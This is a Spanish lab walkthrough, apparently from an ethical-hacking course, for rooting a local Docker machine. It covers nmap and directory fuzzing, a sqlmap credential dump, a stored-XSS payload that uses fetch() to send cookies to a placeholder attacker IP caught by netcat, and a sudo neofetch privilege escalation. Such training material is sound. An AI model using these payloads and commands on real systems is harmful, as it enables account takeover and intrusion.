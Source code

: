 = Soberbia
:author: Manuel L. Quero
:toc: left
:doctype: book

<<<

== Escenario final

En esta máquina pondremos en práctica todos los conceptos aprendidos previamente. Será una prueba final diseñada para aplicar los conocimientos adquiridos. El objetivo es lograr la escalada de privilegios hasta obtener acceso como root, partiendo de un entorno que, aunque vulnerable, se asemeja a uno real. Será necesario realizar primero un reconocimiento, seguido de la ejecución de distintos tipos de ataques. Se fomenta la exploración libre, sin seguir guías preestablecidas; no obstante, proporcionaré algunas pistas para avanzar en caso de ser necesario.

<<<

== Solucionar la máquina

En esta guía se darán pistas, principalmente herramientas y cómo usarlas. Mucha suerte.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de soberbia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh soberbia.tar
----

=== Reconocimiento

==== Fase 1

Empezaremos conociendo los puertos que tiene abiertos el servidor.

.Pista 1
[%collapsible]
====
Para ello haremos uso primeramente de https://nmap.org/man/es/index.html[nmap].

[source,bash]
----
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn (IP) -oG allPorts
----

* *sudo* -> Necesario porque -sS (SYN scan) requiere privilegios.
* *nmap* -> Llama a la herramienta Nmap.
* *-p-* -> Escanea todos los 65535 puertos TCP (no solo los comunes).
* *--open* -> Muestra solo los puertos abiertos (oculta filtrados/cerrados).
* *-sS* -> SYN scan (stealth scan). Muy rápido y difícil de detectar.
* *--min-rate 5000* -> Fuerza a Nmap a enviar al menos 5000 paquetes por segundo, lo que acelera el escaneo.
* *-vvv* -> Muestra información muy detallada durante el escaneo.
* *-n* -> No resuelve nombres de host (más rápido).
* *-Pn* -> No hace ping; asume que el host está activo (útil si ICMP está bloqueado).
* *(IP)* -> La dirección IP del objetivo.
* *-oG allPorts* -> Guarda los resultados en formato grepable (fácil de extraer con grep o awk) en el archivo allPorts.

[.text-center]
image::assets/recon/nmap/nmap.png[nmap]

Como podemos ver están abiertos los puertos 80 y 22
====

.Pista 2
[%collapsible]
====
Podemos ver sus versiones con el siguiente comando:

[source,bash]
----
nmap -p (PORTS) -sC -sV (IP) 
----

* *-p (PORTS)* -> Indica los puertos que quieres escanear. Puedes poner un solo puerto (80), varios (22,80,443) o un rango (1-1000).
* *-sC* -> Usa los scripts por defecto de Nmap (los más comunes y seguros). Es similar a usar --script=default. Esto ayuda a detectar servicios, banners, configuraciones inseguras, etc.
* *-sV* -> Hace una detección de versión: intenta identificar el software y su versión en cada puerto abierto (por ejemplo, Apache 2.4.57).
* *(IP)* -> La dirección IP del objetivo.

[.text-center]
image::assets/recon/nmap/nmapVer.png[Versiones nmap]

Una vez identificadas las versiones de los servicios, podemos comprobar si están desactualizadas y si presentan vulnerabilidades conocidas (CVEs) que podamos explotar.
====

.Sugerencia
[%collapsible]
====
Generalmente, los exploits se encuentran en repositorios como GitHub o en bases de datos especializadas como Exploit-DB. Para facilitar esta búsqueda, podemos utilizar herramientas como *https://www.exploit-db.com/searchsploit[searchsploit]*, que permite consultar Exploit-DB desde la terminal y verificar si existen exploits públicos para una versión específica.

[.text-center]
image::assets/recon/nmap/searchsploit.png[searchsploit]

Podemos observar que no se ha encontrado ningún exploit relevante en Exploit-DB. Es importante ser precisos con los términos de búsqueda, ya que searchsploit devuelve todos los resultados relacionados, aunque no estén directamente vinculados con nuestros servicios. Por este motivo puede aparecer algún resultado, pero no necesariamente se aplica a nuestro caso.
====

==== Fase 2

Cómo ya hemos podido conocer, se trata de una página web sin certificado y con una conexión ssh, por lo que vamos a empezar analizando la página.

[.text-center]
image::assets/recon/fuzz/pagina.png[pagina login]

.Pista 3
[%collapsible]
====
Aparentemente se ve una página que no tiene nada, pero es muy posible que posea directorios y subdirectorios con archivos. Para conocer la estructura vamos hacer lo que se denomina como fuzzing de contenido, es muy útil para identificar rutas sensibles como /admin, /backup, /config.php, etc. En nuestro caso usaremos https://www.kali.org/tools/feroxbuster/[feroxbuster] y https://www.kali.org/tools/gobuster/[gobuster], y compararemos.

[source,bash]
----
feroxbuster -u http://(IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --depth 0 --timeout 5
----

* *-u http://(IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* -> Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).
* *--depth 0* -> Recursividad infinita.
* *--timeout 5* -> Define un tiempo de espera de 5 segundos por solicitud antes de que feroxbuster la descarte por falta de respuesta.

[.text-center]
image::assets/recon/fuzz/feroxbuster.png[feroxbuster]
====

.Pista 4
[%collapsible]
====
[source,bash]
----
gobuster dir -u (IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
----

* *dir* -> Le especificamos que queremos buscar directorios
* *-u (IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* ->  Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).

Gobuster es bastante sencillo de usar, pero un defecto que tiene es que no permite recursividad, teniendo que usar scripts para que haga dicha recursividad. Sinceramente veo feroxuster como una mejora de este.

[.text-center]
image::assets/recon/fuzz/gobuster.png[gobuster]
====

==== Fase 3

.Pista 5
[%collapsible]
====
Bueno, una vez conociendo la estructura, podemos apreciar que hay un directorio en /dev, que se llama pruebas, o un alias de esta ruta que es /devzone. Esto nos sugiere que los desarrolladores podrían estar utilizando esta ruta para realizar pruebas antes de lanzar la versión final del sitio web. Es común que estas zonas contengan código en desarrollo o funcionalidades no protegidas, lo que podría representar una posible vía de explotación.

[.text-center]
image::assets/recon/web/pruebas.png[directorio pruebas]
====

.Pista 6
[%collapsible]
====
Dentro de login.php podemos analizar las tecnologías con *wappalyzer* o con *whatweb* y ver que tecnologías usa.

[.text-center]
image::assets/recon/web/wappalyzer.png[wappalyzer]
====

.Pista 7
[%collapsible]
====
[source,bash]
----
whatweb -a 3 -v http://172.17.0.2/1/2/4/23/dev/pruebas/login.php
----

[.text-center]
image::assets/recon/web/whatweb.png[whatweb]
====

=== Ataque

==== Fase 4

Conociendo un poco más a lo que nos enfrentamos, al ser un login podemos probar con ciertos vectores.

.Pista 8
[%collapsible]
====
Efectivamente con SQLi, pero esta vez no lo vamos a hacer manual, obviamente hay formas más eficientes cómo *sqlmap*, donde comenzaremos por un reconocimiento sabiendo si es vulnerable a SQLi.

[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --batch --risk=3 --level=5 --technique=BEUSTQ
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> Especifica la URL del objetivo, que es un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los parámetros usuario y password. sqlmap inyectará en estos campos. Estos los podemos encontrar si hacemos F12 en la página y observando los atributos *name* o *id* de los inputs correspondientes.
* *--batch* -> Ejecuta el escaneo de forma automática, aceptando las opciones por defecto sin preguntar al usuario. Muy útil para automatizar.
* *--risk=3* -> Aumenta el nivel de riesgo de las pruebas. Va de 0 a 3. Este nivel puede activar payloads más agresivos.
* *--level=5* -> Aumenta la profundidad del escaneo. Va de 1 a 5.
* *--technique=BEUSTQ* -> Define las técnicas de inyección SQL a usar:
** B: Boolean-based
** E: Error-based
** U: Union-based
** S: Stacked queries
** T: Time-based blind
** Q: Inline queries

[.text-center]
image::assets/atacar/sqli/sqlmap.png[sqlmap recon]

Cómo podemos ver el parametro usuario es vulnerable, además más abajo se especifica la versión de Mariadb. Ahora vamos a atacar y obtener las credenciales.
====

.Pista 9
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --dump --batch
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> URL objetivo. Aquí es la página login.php, que probablemente procese un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los datos que se envían (usuario=admin&password=admin). Estos son los campos donde sqlmap probará la inyección.
* *--dump* -> Si se encuentra una inyección válida, extraerá y mostrará automáticamente el contenido de las tablas de la base de datos.
* *--batch* -> Ejecuta en modo automático, sin pedir confirmación para cada acción (muy útil en entornos automatizados o pruebas rápidas).

[.text-center]
image::assets/atacar/sqli/sqliattack.png[ataque sqli]

Como podemos ver, hemos obtenido las credenciales de los usuarios admin y test, por lo que podremos pasar el login.
====

==== Fase 5

Una vez en comentarios, podemos probar cómo funciona el sistema, enviamos un mensaje y nos lo devuelve. Esto nos puede recordar a primeros vectores que aprendimos.

.Pista 10
[%collapsible]
====
Podemos hacer un ataque XSS almacenado, asi que podemos obtener las cookies por *netcat* o mirar en Storage al F12.

[.text-center]
image::assets/atacar/xss/comentarios.png[página comentarios]
====

.Pista 11
[%collapsible]
====
[source,bash]
Mediante el comando *nc* nos podemos conectar a los puertos TCP/UDP de un host. De este modo podemos conectarnos a otros servidores usando diferentes protocolos de red. Además, también es posible crear servidores que se mantengan a la escucha de peticiones entrantes. Los puertos se abrirán por defecto mediante el protocolo TCP, aunque también se acepta el protocolo UDP. En nuestro caso, abrimos un puerto poco frecuenta para recibir los datos, la primera vez que hicimos XSS creamos nuestro propio netcat.

----
nc -lvpn 4444
----

[.text-center]
image::assets/atacar/xss/netcat1.png[comando netcat]
====

.Pista 12
[%collapsible]
====
Después, dentro del comentario meteremos el siguiente script en javascript, que nos pasará las cookies del usuario actual.

[source,javascript]
----
<script>fetch('http://(IP atacante):4444?cookie=' + encodeURIComponent(document.cookie));</script>
----

[.text-center]
image::assets/atacar/xss/xss.png[xss script]

Una vez enviado dicho script veremos una cadena muy larga en GET, ese es el contenido de la cookie:

[.text-center]
image::assets/atacar/xss/netcat2.png[envio de cookies a netcat]
====

.Pista 13
[%collapsible]
====
Copiamos esta cadena y la decodificamos con *cyberchef*, una herramienta web muy util para estos casos. Usamos URL decode, para ver el contenido:

[.text-center]
image::assets/atacar/xss/cyberchef.png[cyberchef]
====

.Pista 14
[%collapsible]
====
Podemos ver que se almacenan las credenciales de ssh, han puesto el usuario y la contraseña hasheada separada por dos puntos. Para crackear hash podemos usar *Crackstation*:

* *Usuario:*

[.text-center]
image::assets/atacar/xss/CrackUser.png[nombre usuario]

* *Contraseña:*

[.text-center]
image::assets/atacar/xss/CrackPasswd.png[contraseña]

Una vez hecho esto ya tendríamos las credenciales del ssh. 
====

.Sugerencia
[%collapsible]
====
También hay otra forma más sencilla de obtener las cookies, simplemente quería mostrar otra forma para hacer XSS y usar netcat. Le damos a F12 en la página y nos vamos a Storage, ahí podremos obtener los hashes que hemos crackeado antes.

[.text-center]
image::assets/atacar/xss/F12.png[inspeccionar]
====

==== Fase 6

Con las credeciales ssh, nos conectamos al servidor:

.Pista 15
[%collapsible]
====
[.text-center]
image::assets/atacar/escalada/ssh.png[conexión con el servidor]

Ahora veremos si tenemos algún privilegio:

[.text-center]
image::assets/atacar/escalada/sudo-l.png[comando sudo -l]
====

.Pista 16
[%collapsible]
====
Podemos ver que tenemos permisos de administración en neofetch. Por lo que buscamos en https://gtfobins.github.io/gtfobins/neofetch/[GTFOBins] si podemos escalar a través de él.

[.text-center]
image::assets/atacar/escalada/gtfobins.png[gtfobins]
====

.Pista 17
[%collapsible]
====
Podemos ver que, para escalar privilegios, debemos crear un archivo temporal con el contenido exec /bin/sh y pasarlo como configuración a neofetch, ejecutado con sudo. Dicho esto, copiamos y pegamos lo que nos indica y obtenemos privilegios de root.

[.text-center]
image::assets/atacar/escalada/root.png[somos root]
====

<<<

== Conclusión

De esta forma hemos aprendido cómo funciona una máquina sencilla, con multiples vulnerabilidades, aprendiendo a usar herramientas reales y que normalmente se usan en estos entornos. Además hemos refrescado conocimientos y visto algunos de otra forma. Si queremos avanzar más en el mundo del hacking ético y aprender más recomiendo lo siguiente:

* Conocerte bien, saber que rama quieres aprender, centrándote en atacar o en defender, es vital para luego hacer los certificados, ya que sabrás en cual encajas mejor.
* Hacer muchas máquinas, esto ha sido un ensayo, donde hemos aprendido lo más básico, allí fuera en internet hay máquinas mucho más complejas y divertidas de explorar. Por ello recomiendo:
** https://tryhackme.com/[TryHackMe].
** https://www.hackthebox.com/[HackTheBox].
* Si tenemos tiempo, recomiendo hacer cursos, ya sea aprendiendo lenguajes de programación, cómo de otras destrezas. Siempre es útil aprender, y hay en youtube muchos canales que nos pueden ayudar o academias que ofrecen cursos gratis:
** Academias cómo Udemy.
** Canales cómo S4vitar, MoureDev, El Pingüino de Mario, NetworkChuck, David Bombal, LaurieWired.
* Por último, hacer certificaciones, hay obviamente cursos que te preparan para ello, y es muy recomendable tenerlos para demostrar que sabes hacerlo.
** Dejo este roadmap que nos puede ser muy util para planificar nuestros estudios https://pauljerimy.com/security-certification-roadmap/[CERTS].

Espero que os haya gustado este viaje por las entrañas del infierno, donde hemos aprendido los principales vectores de ataque y cómo mitigarlos. Vuestro Vírgilio se despide de vosotros.

----
"Cuanto más silencioso te vuelves, más puedes oír." 

- Baba Ram Dass
----